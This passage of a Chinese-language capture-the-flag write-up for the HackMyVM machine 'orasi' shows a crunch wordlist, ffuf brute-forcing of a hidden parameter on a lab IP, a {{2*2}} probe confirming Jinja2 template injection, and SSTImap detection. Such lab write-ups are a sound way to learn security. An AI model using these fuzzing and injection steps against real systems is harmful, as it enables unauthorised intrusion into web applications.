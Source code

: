我想到了之前网站首页给我们的一个提示 `6 6 1337leet`
这看着像是一个crunsh生成字典的参数
尝试用这个生成字典
```bash
┌──(root㉿kali)-[/home/kali/hmv/orasi]
└─# crunch 6 6 leet1337 > wordlist.txt
Crunch will now generate the following amount of data: 326592 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 46656

```
然后进行爆破
```bash
┌──(root㉿kali)-[/home/kali/hmv/orasi]
└─# ffuf -u 'http://192.168.212.4:5000/sh4d0w$s?FUZZ=1' -w wordlist.txt |grep -v 'Size: 8'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.212.4:5000/sh4d0w$s?FUZZ=1
 :: Wordlist         : FUZZ: /home/kali/hmv/orasi/wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

l333tt                  [Status: 200, Size: 1, Words: 1, Lines: 1, Duration: 132ms]

```
成功爆破出参数为 `l333tt`

验证一下
```url
http://192.168.212.4:5000/sh4d0w$s?l333tt={{2*2}}
```
![Pasted image 20241206125012](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206125012.png)
使用 `{{%s}}` 解析成功 ，可以判断是 `jinja2` 的模版
### 3.2. 工具利用
这里我们应该没有过滤我们直接用工具[[26-工具使用/SSTIMAP使用\|SSTIMAP]]进行利用
**-u 进行检测**
```python
python sstimap.py -u http://192.168.212.4:5000/sh4d0w$s?l333tt=1
```
![Pasted image 20241206125635](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206125635.png)
成功检测出ssti模版注入。也检测出模版是 `Jinja2`
